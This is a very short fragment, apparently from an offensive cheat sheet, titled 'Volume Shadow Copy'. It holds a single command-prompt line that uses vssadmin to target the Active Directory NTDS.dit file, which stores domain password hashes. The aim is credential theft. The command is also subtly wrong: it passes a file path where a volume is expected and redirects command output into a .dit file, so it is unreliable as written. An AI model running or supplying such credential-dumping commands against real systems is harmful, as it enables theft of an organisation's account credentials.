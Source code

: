 # Volume Shadow Copy

## 01 - Command Prompt

`C:\> vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\extract.dit`